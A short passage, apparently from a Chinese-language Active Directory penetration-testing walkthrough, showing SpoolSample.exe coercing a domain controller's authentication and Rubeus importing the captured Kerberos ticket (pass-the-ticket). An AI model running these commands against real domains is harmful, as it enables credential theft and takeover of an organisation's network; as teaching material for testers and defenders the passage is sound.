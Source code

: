 ```bash
// 不一定要本机
SpoolSample.exe DC server01
```

![image.png](image%2043.png)

得到票据后将票据导入

```bash
Rubeus ptt /ticket:xxxx
```

![image.png](image%2044.png)
